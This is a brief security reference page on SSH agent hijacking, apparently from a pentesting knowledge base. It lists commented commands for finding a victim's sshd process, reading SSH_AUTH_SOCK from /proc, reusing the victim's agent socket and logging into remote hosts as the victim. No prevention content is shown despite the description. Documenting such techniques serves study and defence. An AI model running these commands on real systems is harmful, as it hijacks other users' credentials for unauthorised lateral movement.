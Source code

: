 ```yaml
---
description: >-
  Dive deep into our comprehensive article that takes you through the
  intricacies of SSH Hijacking. Get the best prevention strategies and solutions
  for this cyber threat.
---
```


# SSH Hijacking

```
# Attacker finds the SSHd process of the victim
ps uax|grep sshd
 
# Attacker looks for the SSH_AUTH_SOCK on victim's environment variables
grep SSH_AUTH_SOCK /proc/<pid>/environ
 
# Attacker hijack's victim's ssh-agent socket
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l
 
# Attacker can login to remote systems as the victim
ssh remote_system -l vicitm
```

{% embed url="https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement" %}
